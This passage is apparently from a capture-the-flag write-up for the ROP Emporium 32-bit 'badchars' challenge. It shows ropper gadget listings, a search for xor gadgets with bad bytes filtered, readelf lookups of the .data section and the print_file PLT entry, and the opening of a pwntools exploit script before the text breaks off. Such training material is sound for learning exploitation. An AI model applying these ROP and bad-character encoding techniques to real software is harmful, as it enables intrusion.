 ```
0x080485b8: pop ebx; pop esi; pop edi; pop ebp; ret;
0x0804839d: pop ebx; ret;
0x08048524: pop ecx; pop ebp; lea esp, [ecx - 4]; ret;
0x080485ba: pop edi; pop ebp; ret;
0x080485b9: pop esi; pop edi; pop ebp; ret;
0x08048527: popal; cld; ret;
```

Looks like we have the same available gadgets as before, which is great! However, there is still one problem:
```flag.txt``` contains the bad characters, which means we will have to encode it.

Since we are hinted towards a ```XOR``` encryption let's try and look for some ```xor```` gadgets:

```
voidwalker@Abyss:[badcharsx86]** ropper --file badchars32 -b 007867612e --search "xor"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] filtering badbytes... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: xor

[INFO] File: badchars32
0x08048713: xor byte ptr [ebp + 0xe], cl; and byte ptr [edi + 0xe], al; adc al, 0x41; ret;
0x08048547: xor byte ptr [ebp], bl; ret;
0x080485cf: xor ebx, dword ptr [edx]; add byte ptr [eax], al; add esp, 8; pop ebx; ret;
```

It looks like we are able to xor the value dereferenced by ```ebp``` with the value located in ```bl```. We could chain this with the ```pop ebp; ret``` gadgets found previously.
Let's get the address of the ```.data``` section as well, hopefully it doesn't have any bad characters.

```
voidwalker@Abyss:[badcharsx86]** readelf -S badchars32 | grep data
  [16] .rodata           PROGBITS        080485d8 0005d8 000014 00   A  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
```
It doesn't! Great!
Let's also get the ```PLT``` entry of the ```print_file()``` function, fingers crossed it doesn't have any bad characters!
```
voidwalker@Abyss:[badcharsx86]** readelf -r badchars32 | grep print
0804a014  00000407 R_386_JUMP_SLOT   00000000   print_file
```
Looks like it doesn't! We are good to go, now we only need to find a good value to xor our string with.

...

After some trial and error, as well as some research, I've come to the conclusion that it is best to xor the characters with ```33```.
Here is the final script:

```python
#!/usr/bin/env python3

from pwn import *

context.arch = "i386"
context.bits = 32
context.endian = "little"
context.os = "linux"

xor_value = 33
```
